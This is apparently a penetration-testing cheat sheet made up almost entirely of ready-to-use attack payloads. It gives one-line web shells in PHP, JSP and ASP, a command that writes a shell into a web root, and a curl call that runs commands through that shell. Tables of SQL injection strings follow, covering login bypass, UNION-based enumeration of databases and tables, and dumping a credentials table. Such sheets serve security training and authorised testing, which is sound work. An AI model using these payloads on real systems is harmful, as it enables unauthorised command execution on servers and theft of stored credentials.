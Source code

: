 
# Web shell

```php
<?php system($_REQUEST["cmd"]); ?>
```

```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

```asp
<% eval request("cmd") %>
```


# Uploading a Web Shell

```bash
echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php
```

# Accessing Web Shell

```
curl http://SERVER_IP:PORT/shell.php?cmd=id
```




# SQL Injection


| **Auth Bypass**    |                                 |
| ------------------ | ------------------------------- |
| `admin' or '1'='1` | Basic Auth Bypass               |
| `admin')-- -`      | Basic Auth Bypass With comments |

| **Union Injection**                                 |                                                |
| --------------------------------------------------- | ---------------------------------------------- |
| `' order by 1-- -`                                  | Detect number of columns using `order by`      |
| `cn' UNION select 1,2,3-- -`                        | Detect number of columns using Union injection |
| `cn' UNION select 1,@@version,3,4-- -`              | Basic Union injection                          |
| `UNION select username, 2, 3, 4 from passwords-- -` | Union injection for 4 columns                  |

| **DB Enumeration**                                                                                                          |                                            |
| --------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------ |
| `SELECT @@version`                                                                                                          | Fingerprint MySQL with query output        |
| `SELECT SLEEP(5)`                                                                                                           | Fingerprint MySQL with no output           |
| `cn' UNION select 1,database(),2,3-- -`                                                                                     | Current database name                      |
| `cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -`                                                   | List all databases                         |
| `cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -`                  | List all tables in a specific database     |
| `cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -` | List all columns in a specific table       |
| `cn' UNION select 1, username, password, 4 from dev.credentials-- -`                                                        | Dump data from a table in another database |

